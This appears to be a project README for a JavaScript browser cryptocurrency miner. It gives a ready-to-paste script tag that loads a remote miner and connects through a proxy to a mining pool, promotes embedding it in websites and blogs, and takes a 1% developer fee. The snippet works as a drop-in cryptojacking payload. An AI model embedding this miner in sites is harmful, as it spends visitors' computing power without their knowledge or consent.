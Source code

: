 # Crypto-Webminer
Crypto Webminer | Electroneum | Monero | Bytecoin | IntenseCoin | Sumokoin | Dinastycoin | Graft | SuperiorCoin | Turtlecoin | Custom Pool Support - Mining in your Browser

Use Crypto Webminer - JavaScript miner on any Stratum Pool for Cryptonight Coins

Host your own assets on your Server from assets branch or use https://thelifeisbinary.netlify.com/media.js

Stratum Proxy for all pools:<br>?gustav=ws://thelifeisbinary.ddns.net:8897

Simple Pool change: ?pools=Your_Favorite_Pool:PortNr

Complete example:
<script src="https://thelifeisbinary.netlify.com/media.js?gustav=ws://thelifeisbinary.ddns.net:8897?pools=pool.supportxmr.com:3333"> </script>

<br><br> 
Or use our integration for websites & blogs and SSL integration
http://www.crypto-webminer.com/integrate.html
<br><br> 
Join Discord Chat
https://discord.gg/nnARdpc
  
<br><br> 
We take a 1% developer fee
